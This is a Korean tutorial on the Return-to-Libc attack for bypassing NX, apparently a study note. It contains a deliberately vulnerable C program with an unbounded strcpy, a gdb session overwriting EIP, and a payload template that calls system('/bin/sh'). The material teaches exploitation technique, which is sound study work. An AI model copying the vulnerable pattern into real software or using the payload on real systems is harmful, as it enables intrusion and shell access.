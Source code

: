 # RTL
* **Return To Libc(RTL)** : 리턴 주소를 라이브러리 내에 존재하는 함수의 주소로 바꿔 NX bit을 우회하는 공격 기법이다.
libc.so.6 라이브버리에는 execve, execlp, execl, execvp, system.popen 등 프로그램을 실행할 수 있는 다양한 함수들이 존재한다. 이 중 system 함수는 인자를 하나만 받기 떄문에 익스플로잇 할 때 많이 사용된다.
system 함수의 인자는 실행할 셸 명령어 문자열의 주소이기 때무에, 만약 "/bin/sh" 문자열의 주소를 system 함수의 인자로 넘겨준 후 호출하면 /bin/sh 바이너리가 실행된다.
* 예제
``` C
//gcc -o example1_nx example1.c -fno-stack-protector -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int vuln(char * src){
  
  char buf[32] = {};
  
  strcpy(buf, src);
  return 0;
}
int main(int argc, char * argv[], char * environ[]){
  if (argc < 2){
    exit(-1);
  }
  vuln(argv[1]);
  return 0;
}
```
system 함수를 호출하여 system("/bin/sh")를 실행하는 것이 목표이다.
```
(gdb) r `python -c 'print "A"*36+"BBBB"'`
Starting program: ~/example1_nx `python -c 'print "A"*36+"BBBB"'`
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0xffffd770	-10384
edx            0xffffd520	-10976
ebx            0x0	0
esp            0xffffd524	0xffffd524
ebp            0x41414141	0x41414141
esi            0xf7fb5000	-134524928
edi            0xf7fb5000	-134524928
eip            0x42424242	0x42424242
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) x/4wx $esp-4
0xffffd520:	0x42424242	0xffffd700	0x00000000	0xf7e1b637
(gdb) 
```
buf 배열부터 vuln 함수의 리턴주소 위치까지 이전과 동일하게 36바이트이다.
실행결과 eip 레지스터가 0x42424242로 바뀌었고, ret을 하기 전의 스택 포인터인 esp-4 메모리에 0x42424242가 저장되어 있는 것을 볼 수 있다.
만약 인자가 3개인 함수 func(1, 2, 3)을 호출한다면, func+0 시점에서의 스택 메모리 상태는 다음과 같다.     
![image](https://user-images.githubusercontent.com/59531805/79416154-01f30500-7fea-11ea-998b-bd48912619a2.png)   
RTL에서, 리턴 주소에 호출할 함수의 주소를 덮어쓴 후 ret을 하면 eip 레지스터가 덮은 값이 되고, esp 레지스터는 리턴 주소의 위치+4가 된다.
위 스택 구조를 참고해 보았을 때, 함수 시작 부분에서의 인자의 위치는 esp+4가 되고, 호출된 함수의 리턴 주소가 저장된 위치는 esp+0이 된다.
system("/bin/sh")를 호출하는 익스플로잇 코드는 아래와 같다.
```
"A" * 36 + (system 함수 주소) + "BBBB" + ("/bin/sh" 주소)
```
BBBB 문자열은 system 함수가 종료되고 난 후 리턴할 주소인데, 단지 system("/bin/sh")를 실행하는 것이 목표이기 때문에 임의의 값으 적어도 무방하다.